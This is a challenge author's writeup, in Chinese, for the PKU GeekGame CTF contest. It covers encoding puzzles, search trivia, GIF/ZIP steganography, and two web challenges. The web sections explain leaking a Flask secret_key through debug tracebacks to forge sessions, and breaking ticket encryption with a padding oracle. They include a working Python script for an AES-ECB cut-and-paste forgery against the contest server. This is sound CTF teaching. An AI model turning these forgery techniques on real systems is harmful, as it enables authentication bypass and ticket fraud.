**FROM: 肖元安 \<xmcp at pku.edu.cn>**
**TO: You**
**TITLE: PKU Geek Game Genesis Writeup**
<style>
img {
    max-height: 30em;
    max-width: 80%;
    box-shadow: 0 1px 0.5em rgba(0, 0, 0, .25);
}
body {
    background-color: #f3f3f3;
}
#write {
    max-width: 900px !important;
    box-shadow: 0 0 2em rgba(0, 0, 0, .15);
    background-color: white;
}
iframe {
    width: unset;
}
.wyy-player {
    height: 86px;
    max-width: 400px;
    width: 100%;
}
#write p {
    margin: 1em 0;
}
</style>


[toc]

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" class="wyy-player"  src="//music.163.com/outchain/player?type=2&id=1834949967&auto=0&height=66"></iframe>
↑ 比赛这周我单循了好几天这首歌


# 命题 Writeup

很荣幸为本次比赛出了 7 道题。签到题以及 6 个题目描述里带 You 酱的题是我出的。

作为命题人写的 Writeup，除了预期解法以外，还会简单说说命题背景和赛场上的一些情况。

顺便不知道大家有没有发现，平台的题目描述里所有 “You” 字样都不是纯黑色的，而是渐变的深绿色的。具体来说，是这个格式：

```css
.you-name {
    background: linear-gradient(0deg, #26791c, #1d1d1d, #1d1d1d);
    text-shadow: 0 0 1px rgb(21 66 14 / 40%);
    text-fill-color: transparent;
    background-clip: text;
}
```


## →签到←（Misc）

**命题背景：**

出签到题的主要目的是把选手骗进群，顺便给萌新送送分（x

作为一场随意报名的纯线上比赛，及时联系上所有选手是一件比较难的事情。所以专门设置一个签到题来 “逼迫” 选手加群接收通知。

**预期解：**

题面显然是 Base64 编码，不如说看见一串大小写字母加数字的乱码就应该怀疑 Base64，如果再有加号和斜杠、结尾有几个等号，则更可以直接实锤 Base64（这个题恰好没有出现特殊符号）。

Base64 解出来 `synt{J3ypbzr gb 0gu CXH ThThTh, rawbl gur tnzr!}`。这个大括号看起来很像 Flag 的格式，但 Flag 的开头四个字母是 `flag` 而不是 `synt`。动用小学英语知识不难发现，每个字母都在字母表上移动了 13 个位置，而标点符号和数字看起来没有变化。这种加密被称作 ROT13，是凯撒加密的一个流行的变种，因为 13 正好是 26 的一半，所以 ROT13 是一种 “对称加密”，即加密和解密过程一样。

ROT13 变换一下（推荐 [rot13.com](https://rot13.com) 这个网站），即可得到 Flag。（Flag 错误？往下看）

趣味小知识 1：用数字 0 1 3 5 7 代替字母 o i e s t 等的行为被称作 [Leet](https://en.wikipedia.org/wiki/Leet)，是一种嘿客装逼的常用方式，也经常被用来对付 “密码必须包括字母和数字” 的要求。

趣味小知识 2：Python 著名的 [import this 彩蛋](https://www.python.org/dev/peps/pep-0020/) 就是使用 ROT13 编码的，不信可以 [看看源码](https://hg.python.org/cpython/file/3.5/Lib/this.py)。

**赛场情况：**

有**很多**萌新解完 ROT13 之后交上去发现提示 Flag 不对，这可能是因为你在网上找到了 [一个在线凯撒加解密的网站](https://www.qqxiuzi.cn/bianma/kaisamima.php)。但这个网站有个坑，它解出的明文是这样的：



可以看到，所有空格都被替换成了 ensp（U+2002）这个特殊字符。这个字符表示 “半角空格”，它的宽度正好是字符高度的一半，比一般空格要宽一点。由于空格的差异，直接把这个网站解出的 Flag 提交是通过不了的。

眼尖的选手可能会注意到这个空格比正常的空格宽（如下图），从而发现并修复空格问题。对空格宽度不够敏，或者使用的字体比较遗憾的选手，就比较悲催了，毕竟签到题都做不对很搞心态……只能说，假网站害人呐！



受害者数量统计：




## 小北问答 1202（Misc）

**命题背景：**

中科大的 Hackergame 也经常出这类题目。它考察的知识点很简单，就是正确使用搜索引擎。确切地说，是正确使用除百度以外的搜索引擎。李学长抱歉了，但 yysy 用百度搜技术内容是真的是灾难。

**预期解：**

> 理科一号楼共有 8 个计算中心机房，其中第 n 机房的门牌号是Xn（1000≤Xn≤9999），求 ∑ (Xn)^n 的最大质因数。

在 [ITS 网站](https://its.pku.edu.cn/pcroom.jsp) 上可以找到每个机房的门牌号。不建议实地考察，因为在理科一号楼找房间会迷路的，真的会迷路的。

然后按要求求和之后分解一下质因数就 OK 了，注意到和超出了 64 位整数的表示范围，建议用 Python。`sympy.factorint` 可以做质因数分解。



答案是 `108475792463321`，这么大的数居然是质数，小编也感到惊讶。

> 北京大学的哪门课被称为“讲得好、作业少、考试水、给分高的课”（中文全称）？

注意到题干 “被称为” 这个用词，题面也强调了此题 “不需要选手具有特定生活经验”，显然它不是在问你觉得哪门课好，觉得答案跟自己心目中的水课不一样的选手也不要觉得冤枉，因为题目就不是在问你自己的感受。有很多人无脑填了地概，虽然地概确实可能符合上述特点，但（至少在比赛之前）从未有人原封不动地用 “讲得好、作业少、考试水、给分高” 这一长串定语来称呼它。

那么，这句话的来源是哪呢？搜索一下就知道了：



访问这个网站，鼠标悬浮在文字上即可看到答案。


所以这题主要是在考察选手会不会在搜索的时候加引号。

另外声明一下，我并没有上过这门课，选它作为题目只是因为 “讲得好、作业少、考试水、给分高的课” 这个表述恰到好处地能用各大搜索引擎搜索出来唯一的结果，没有任何内定、钦点的意思。

> 根据 HTCPCP-TEA 协议，当一个茶壶暂时无法煮咖啡时，应当返回什么状态码？

HTCPCP-TEA 的标准是 [RFC7168](https://datatracker.ietf.org/doc/html/rfc7168)，原文说 “TEA-capable pots that are not provisioned to brew coffee may return either a status code of 503, indicating temporary unavailability of coffee, …” 所以答案为 503。

有些人在维基百科上找到了 406 这个答案，说明你查的是 HTCPCP 的维基百科，HTCPCP-TEA 是对 HTCPCP 的扩展，是另一年愚人节的作品，HTCPCP-TEA 在维基百科上没有。

418 也是不对的，它表示 “永远” 无法煮咖啡。

> 在 Conway's Game of Life 中，有多少种稳定的由 7 个活细胞构成的局面？稳定是指每个时刻的状态都与初始状态完全相同。旋转或对称后相同的视为同一种局面。

答案是 4，这种局面被称为 “Still Life”，在 [生命游戏 Wiki](https://www.conwaylife.com/wiki/Still_life) 上面有介绍。

题目问了 7 个细胞构成的 Still Life 数量，而没有问更大的。这是因为两个 4 细胞的 Still Life（一个方块）放在一起可以拼成 8 细胞的 Still Life，间隔多大都可以，因此 8 细胞的 Still Life 数量按照上述定义有无限多种。

> FAStT Management Suite Java 是 IBM 推出的一款软件，它的默认密码是？

上网搜可以搜到 [一篇 IBM 的支持文章](https://www.ibm.com/support/pages/ibm-fastt-management-suite-java-msj-diagnostic-and-configuration-utility-ia-64-linux-fibre-channel-solutions)，里面有一个手册的 ftp 链接。这个 ftp 服务器有点东西，它允许下载文件，但没有列出目录的权限。所以如果你用 GUI 的 ftp 软件是找不到这个文件的，可以用命令行下载。当然在其他网站上也能找到 FAStT MSJ 的手册，不一定要用 ftp。

下载之后搜索 “password”，找到 “The original default password is config.”

> 最小的汉信码图案由多少像素（被称为“模块”）构成？

如果你看了汉信码的百度百科，就会发现虽然字数很多，但一点有效内容都没有……

汉信码的标准是 GB/T 21049-2007，网上可以搜到这个标准的 PDF，里面提到：



所以答案是 23*23 = 529。

> 哪个国密算法基于椭圆曲线密码？

此题是罕见的百度能搜出来答案的题目。答案是 SM2。

> 在 2013 年 5 月 4 日，全世界共有多少可用的顶级域名（TLD）？

顶级域名的分配归 IANA 管，IANA 网站上有一个 [顶级域名的列表](http://www.iana.org/domains/root/db)。我们想知道 2013 年 5 月 4 日的情况，可以在 [Internet Archive](http://web.archive.org/) 上面输入这个网址找找看有没有网页快照。可以看到，在 2013 年 5 月的 3 日和 5 日恰好有快照：


访问一下，数数列表有几行（可以用 `document.querySelectorAll('#tld-table tbody tr')`），得到答案 329。

有人找到了 [IANA 的另一个列表](https://data.iana.org/TLD/tlds-alpha-by-domain.txt)，得到的答案是 317，这是因为那 329 个域名里有些国家域名属于 “not assigned” 状态，排除之后就是 317 了。这是命题时的一处疏忽，最终 317 和 329 都算对了。

**赛场情况：**

这是每道题大家都几次答对的统计图（单元格里的数字代表人数）：



另外，意外收获了一份众包课程测评（只选取了每人第一次提交的答案）：



赵克常老师的地震概论、地震概率和地震概概论 NB 就完事了（x

另外，有选手担心如果那个课程测评网站在比赛期间更改了主页内容怎么办。这种事情是不会发生的，已经跟站长沟通过了。


## 与佛论禅网大会员（Misc）

**命题背景：**

文件格式、隐写和拼图是 Misc 题的传统艺能，不得不品尝。

噢，好像传统艺能还包括 pcap 寻宝和古典密码脑洞来着？懂了，下届就出（x

**预期解：**

下载得到一张 GIF 图片。当然它不仅仅是一张图片，后面有一些多余的信息（软件是 010 Editor）：



老赛棍看到 “50 4B 03 04” 文件头肯定能意识到这是一个 ZIP 压缩包了，其实题面里也有暗示（“图种” 就是说图片后面塞一个 ZIP 之类的东西）。因为 GIF 文件允许任意长度的后缀，ZIP 文件允许任意长度的前缀，所以把一个 GIF 和 ZIP 拼在一起是合法的。

直接把后缀改成 `.zip` 打开看到两个文件：



第一个 Flag 没加密，简直白给对不对？所以只有一百分。

`flag1.txt` 是 `flag{K33p_going!Passw0rd-is-hidden-in-the-1mage}`，这提示了我们需要在图片里找到密码解开第二个 Flag。

众所周知，GIF 支持动画，让我们看看这个 GIF 有哪些帧（软件是 Photoshop）：



仔细观察发现，第 2 4 6 8 帧的四个角有一些白花花的东西。稍微拉一下曲线可以得到一个黑白相间的块：



我们把四个块提取出来，稍微拼拼图，可以得到：



脑洞大的人估计一下就猜出来这是一张 QR Code 切掉 4 个角的图案了。没猜出来不要紧，QR Code 在切掉角之后也有规律可循。下图圈出来的一条横线和一条竖线（用来校准二维码的时序）是所有 QR Code 共有的，恰好与拼出来的图吻合。



于是手工把 4 个角补上，借助于 QR Code 强大的纠错功能，可以扫出来一个网址：


这就是压缩包密码，输入进去就完事了。

如果你是用微信扫的码，需要手动复制链接才能看到 # 后面的内容。

**赛场情况：**

有些选手发动了强大的找往年题的能力，发现网鼎杯有一个类似的题目要拼汉信码，再联想到 “小北问答” 也考了汉信码，于是走上了拼汉信码的错误道路。这说明选手不知道 QR Code 时序图案的规律。

有些选手表示自己修完之后扫不出来，我也不知道为什么扫不出来，可能是定位点位置不够准，或者黑白弄反了。实测这样子是能扫出来的：


也有选手看到题目名称有 “与佛论禅” 四个字就去试图找文件里哪里藏着与佛论禅密文了……本题完全没有涉及到与佛论禅，真是抱歉了，下届有机会一定出（x


## 人生苦短（Web）

**命题背景：**

在调试完程序之后，很多人都不会专门把调试开关关掉。把 DEBUG 模式的程序放到生产环境跑可能会让黑客在错误提示中得到敏感信息。对于此题来说，就是 Flask 的 secret_key。

JSON 的类型问题也是做 Web 开发经常忽略的一个点。对于不检查类型的语言和框架，你以为拿到了一个字符串，但实际上未必是。[FastAPI](https://fastapi.tiangolo.com/) 要求指明 JSON 请求的类型，点一个赞。

当然，Flask 知道 secret_key 后 session 伪造的方法也是一个很常见的考点了。于是本题把上述三个考点缝合了一下。

**预期解：**

审计源码看到最后一行 `app.run('0.0.0.0', 5000, True)`，最后一个 True 就是 `debug` 参数。如果你不知道这一点，把代码放到本地跑一下就会发现它确实开启了调试模式。

我们知道 Flask 的 session 是用 secret_key 签名的，[得到 secret_key 之后就可以伪造 session](https://www.kirsle.net/wizards/flask-session.cgi)。于是我们要想办法弄到 secret_key。

调试模式的 Flask 程序会在出错后输出 Traceback，包括出错位置上下五行的代码内容。我们找 secret_key 位置的上下五行代码：



That's it. 如果 `request.json.get('action', '')` 不是一个字符串，`.strip()` 就会报错，从而打印出错误提示，泄露敏感信息。比如，我们来一个 `{"action": 1}` 试试：



拿到 secret_key 之后，网上随便找一个 Flask session 加密的代码，把自己改成 admin 就可以 `getflag` 了。

**赛场情况：**

做出来这题的人数比预期的要多，估计是因为 debug 模式泄露 secret_key 的考点在网上搜索 “ctf flask” 就能找到……

爆出错误的姿势好像也挺多的，甚至直接 JSON 传一个数字也行，相当于直接在 `json.get` 那一步就炸了。要是我也想到能这么搞，这题就不加后面的 `.strip()` 了（x

另外 debug 模式还有一个玩法，就是猜出调试器的 PIN 码直接执行命令。因为 PIN 码是根据机器 ID 和 MAC 地址等因素生成的，而且所有题目都是跑在一台机器的 Docker 里，Docker 生成这些信息比较有规律，选手或许会考虑做出来其他 Pwn 题之后读取机器 ID 猜测出 PIN 码，然后执行命令。

但这条路是行不通的，因为我们专门改了这道题 Docker 的环境变量修改了 PIN 码。而且 PIN 码多次输错就会永久锁死，所以爆破也行不通。


## 千年讲堂的方形轮子（Web）

**命题背景：**

Padding Oracle 是一个很有趣的漏洞。它揭示了系统中任何微小的安全隐患（甚至告诉攻击者 “数据是否出错” 这个 1-bit 信息）都可能被利用。也顺便向人们强调了机密性和权威性是不同的概念，只加密不签名无法确保数据真实可信。

因为 Padding Oracle 其他比赛可能都考过，比较俗，甚至网上有一键攻击的脚本，所以又增加了第二问对 ECB 的攻击。

**预期解：**

容易看出生成的购票凭证是一段 Base64 编码过的东西。判断一下解码后内容的长度都是 16 的倍数，不难判断这是一个加密后的密文。

把密文放到检票 API 里面，如果我们随意修改密文中的一些比特，解出来的信息会发生变化：



这是因为 AES-CBC 加密只能保证信息的机密性但不能保证信息的权威性，攻击者修改密文就会让解出来的明文也发生变化。如果我们修改密文的最后几个字节，会报错 “Error: 解密购票凭证失败”。这是因为 AES 加密前需要做 PKCS7 Padding 来让明文对齐到 16 字节，修改最后几个字节会导致 Padding 错误，从而解密失败。

根据这一特性，有些聪明的黑客在二十年前就提出了一种称为 Padding Oracle 的攻击方式，大体思路是遍历字符的 256 种取值，没有报错的那个取值就对应了正确的 Padding，从而逐渐解密出明文。解出明文后，我们也可以进一步伪造任意密文，从而彻底把 AES-CBC 加密变成笑柄。

具体的原理可以在网上搜，Google Scholar 搜索 “Padding Oracle” 即可，此处不再赘述。总之这种攻击被研究地很充分，甚至有人制作了 [一键攻击脚本](https://github.com/AonCyberLabs/PadBuster)，直接就可以解出明文。ranwen 的 writeup 里有一个手动 Padding Oracle 攻击的代码，感兴趣的选手可以参阅。



解出之后发现明文的格式是：

```
stuid=学号|name=姓名|flag=False|code=兑换码|timestamp=购票时间
```

我们从明文里拿到兑换码，然后通过 Padding Oracle 把 flag 改为 True，就可以经过领取礼品的 API 得到 Flag 1 了。

在第二问中，工程师把加密方式改成了 ECB 模式。这是一个巨大的笑话，因为 ECB 是比 CBC 还要弱的一种加密方式，它直接把明文分成若干 16 字节的块，然后每块单独加密。

这会造成两个问题，其一，明文中相同的 16 字节会被加密成相同的内容，这就让攻击者知道哪些内容是相同的。比如下面这个例子是用 ECB 模式加密一张图片得到的结果，可见图片中纯色的部分都被加密成了一样的纹理：



而解出 Flag 2 所需的是 ECB 模式的另一个问题：ECB 允许攻击者 “断章取义”，把部分密文拿出来拼凑出一个假的东西。

例如，假设明文是：

```
stuid=....|name=XXXXXXXXXXXXXXXX|code=...|timestamp=...
<- 16B  block -><- 16B  block -><- 16B  block ->
```

由于 XXX...XXX 是攻击者输入的任意内容，这样攻击者拿到很多个这种 block 的密文之后就可以拼凑出任意的假明文来。

值得注意，此题严格限制了 name 的长度不超过 19，所以确保 XXX...XXX 铺满了一整个 block 是有点难度的，因为 stuid 限制了 10 位，此时 name 横跨两个 block，不在一个完整的 block 里：

```text
stuid=..........|name=1234567890123456789|flag=True|...
<- 16B  block -><- 16B  block -><- 16B  block ->
```

可以用汉字和 Emoji 编码来绕过长度限制。因为检查长度限制是针对字符串长度，实际 AES 加密分块用的是 UTF-8 编码之后的字节长度，而一个字符可以对应多个字节（目前最多 4 个）。所以用 3 个 Emoji 可以撑出来最多 12 字节的空间，这样就能让后面的 16 字节恰好铺满整个 block 了。

当然，由于解码的过程比较宽松，事实上不铺满一整个 block 也能实现攻击。

解第二问就没有现成的脚本可以用了，需要自己写一个：

```python
import base64
import pickle
import requests
from Crypto.Util.Padding import pad, unpad

TARGET = pad('stuid=1145141919|name=pcmx|flag=True|code=chicken|timestamp=1618074202'.encode(), 16)
assert len(TARGET)%16 == 0

def do_enc_ecb(stuid, name):
    t = requests.get(
        'http://prob12.geekgame.pku.edu.cn/ecb/gen-ticket',
        params={
            'stuid': stuid,
            'name': name,
        },
    ).text
    print(name, t)
    assert '已为您生成购票凭证' in t, t
    b64 = t.partition('<br><p>')[2].partition('</p><br>')[0]
    return base64.b64decode(b64.encode())
    
PFXLEN = len('stuid=2222222223|name=\u0660🍕🍕'.encode())
assert PFXLEN%16 == 0

encparts = []

for i in range(0, len(TARGET), 16):
    chunk = TARGET[i:i+16]
    enc = do_enc_ecb('2222222223', ('\u0660🍕🍕'.encode())+chunk)
    encparts.append(enc[PFXLEN:PFXLEN+16])
    
print(base64.b64encode(b''.join(encparts)))
```

这样就可以伪造购票凭证，并顺利领取到 Flag 2 了。

**赛场情况：**

有些选手发现在姓名里输入竖线就会被截断，因此试图用 “|flag=True” 这样的内容来注入。如果仅仅这样做是行不通的，因为在解码个人信息的代码是从前往后进行的，“真正” 的 flag 字段在姓名的后面，会覆盖掉伪造的字段：

```python
def mydecode(s):
    d = {}
    for pair in s.split('|'):
        k, _, v = pair.partition('=')
        d[k] = v
    return d
```

但是考虑到攻击者可以截取部分明文，因此在姓名里面注入一波竖线，然后截掉后面的字段是可以做出来的，因为这个解码过程的容错率极高，所以有可能乱拼出来的密文可以被识别。（事实上一开始这道题直接是 JSON 解码，但 Python 的 JSON 库看见任何一个 non-ascii 字符就报错，为了降低难度就换成了手写的这个解码方式）。

也有选手没有通过 Padding Oracle 获得兑换码，而是直接修改了 code 前面的分隔符，于是就把兑换码带出来了。这道题特意采用了比较宽松的解码方式，因此诞生了很多有趣的解法。

附赠一条趣味小知识：下面这些是深受选手喜爱的学号。

